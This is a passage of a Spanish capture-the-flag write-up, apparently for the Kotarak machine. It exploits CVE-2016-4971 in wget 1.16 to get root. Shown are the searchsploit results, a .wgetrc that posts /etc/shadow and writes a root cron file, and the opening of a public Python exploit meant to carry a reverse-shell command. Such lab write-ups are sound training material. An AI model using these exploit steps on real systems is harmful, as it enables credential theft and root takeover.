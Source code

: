Recibimos una petición de la IP que localizamos en el log. Parece que hay alguna tarea cron programada. Observando el User-Agent vemos que se está utilizando la herramienta `wget` de versión 1.16. Buscamos vulnerabilidades asociadas a esta versión y localizamos un RCE

```bash
❯ searchsploit wget 1.16
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                                |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
GNU Wget < 1.18 - Access List Bypass / Race Condition                                                                                                                         | multiple/remote/40824.py
GNU Wget < 1.18 - Arbitrary File Upload (2)                                                                                                                                   | linux/remote/49815.py
GNU Wget < 1.18 - Arbitrary File Upload / Remote Code Execution                                                                                                               | linux/remote/40064.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
```

Seguimos los pasos del PoC que econtramos en el archivo `40064.txt`

Primero debemos crear un direcotrio `ftptest` dentro de `/tmp`. Dentro de este directorio creamos un archivo `.wgetrc` de la siguiente forma

```bash
atanas@kotarak-dmz:/root$ mkdir /tmp/ftptest
atanas@kotarak-dmz:/root$ cd /tmp/ftptest

atanas@kotarak-dmz:/tmp/ftptest$ cat <<_EOF_>.wgetrc
post_file = /etc/shadow
output_document = /etc/cron.d/wget-root-shell
_EOF_
```

Seguimos creando un script en python llamado `wget-exploit.py` que hay que ajustar las indexaciones para que no dé problemas. También debemos modificar `FTP_HOST` con la IP de la máquina víctima y `HTTP_LISTEN_PORT` con la IP 0.0.0.0 para estar en escuchar de cualquier conexión entrante. Por último en el parámetro `ROOT_CRON` insertaremos el comando que queremos que se ejecute para entablar una revserse shell con privilegios de root. El script quedaría de la siguiente forma

```python
#!/usr/bin/env python

#
# Wget 1.18 < Arbitrary File Upload Exploit
# Dawid Golunski
# dawid( at )legalhackers.com
#
# http://legalhackers.com/advisories/Wget-Arbitrary-File-Upload-Vulnerability-Exploit.txt
#
# CVE-2016-4971
#

import SimpleHTTPServer
import SocketServer
import socket;

class wgetExploit(SimpleHTTPServer.SimpleHTTPRequestHandler):
    def do_GET(self):
    # This takes care of sending .wgetrc
```
